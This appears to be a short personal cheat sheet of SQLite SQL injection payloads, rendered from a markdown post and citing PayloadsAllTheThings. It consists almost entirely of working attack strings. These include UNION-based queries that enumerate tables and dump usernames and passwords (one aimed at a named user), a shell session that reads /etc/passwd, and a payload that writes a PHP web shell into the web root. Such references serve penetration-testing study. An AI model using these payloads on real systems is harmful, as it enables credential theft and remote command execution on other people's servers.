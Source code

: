 ```yaml
---
layout: post
title: SQL Injection - SQLite
description: SQL Injection - SQLite
summary: SQL Injection - SQLite
tags: [sqli,db,enum]
minute: 1
---
```

## Databases
```
sqlite_master
```

## Quick Detection
```sql
-- check version
user=foo' and 1=2 union select all 1,2,3,sqlite_version();--&password=abc
```

## Reading a file
```sql
sqlite>
sqlite> CREATE TABLE pwn.data (data TEXT);
sqlite> .tables
data      pwn.data
sqlite> .import /etc/passwd data
sqlite> select * from data;
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/usr/bin/nologin
......
......
sqlite> .tables
data       pwn.data   pwn.shell  shell    
sqlite> DROP TABLE pwn.shell;
```

# Payloads
```sql
-- getting table names
user=foo' UNION SELECT group_concat(tbl_name),1,2,3 FROM sqlite_master;--&password=abc
user=foo' UNION SELECT group_concat(tbl_name),1,2,3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--&password=ab

-- extracting column names
user=foo' UNION SELECT sql,2,3,4 from sqlite_master where name='users';--&password=abc

-- getting a username and a password
user=foo' UNION SELECT name,2,3,password from users--&password=abc
user=foo' UNION SELECT name,2,3,password from users limit 2 offset 10--&password=abc

-- get info for lucas washington
user=foo' UNION SELECT name,2,3,password from users where name like '%lucas_%'--&password=abc

-- planting a php file
?id=bob’; ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES (‘<? system($_GET[‘cmd’]); ?>’;--
```

## Reference
* [PayloadsAllTheThings/SQLite Injection.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
* [Injecting SQLite database based application](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
